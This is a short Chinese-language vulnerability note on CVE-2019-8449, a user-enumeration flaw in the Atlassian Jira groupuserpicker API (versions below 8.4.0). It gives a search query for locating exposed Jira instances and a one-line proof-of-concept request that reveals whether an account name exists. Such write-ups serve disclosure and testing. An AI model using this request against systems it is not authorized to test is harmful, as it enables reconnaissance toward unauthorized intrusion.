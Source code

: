 # 

# Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](./images/202205241426135.png)验证POC

```
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![](./images/202205241426482.png)

当用户不存在时

![](./images/202205241427885.png)
